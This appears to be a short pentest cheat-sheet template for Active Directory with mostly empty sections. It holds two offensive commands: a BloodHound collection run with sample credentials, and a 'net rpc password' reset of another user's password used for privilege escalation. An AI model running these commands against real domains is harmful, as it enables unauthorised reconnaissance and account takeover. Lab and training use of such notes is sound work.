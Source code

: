 ### Information Gathering
- Bloodhound
```bash
bloodhound-python -u mchackudao -p Pass123!  -ns 10.10.10.10 -d domain.local -c All
```

### Enumeration
```bash
```

### Exploitation
- Transitive Control Privesc
```bash
net rpc password "OldPass123" "NewPass123" -U "domain.local"/"user"%"[REDACTED]" -S "dc.domain.local"
```

### Post-Exploitation
```bash

```
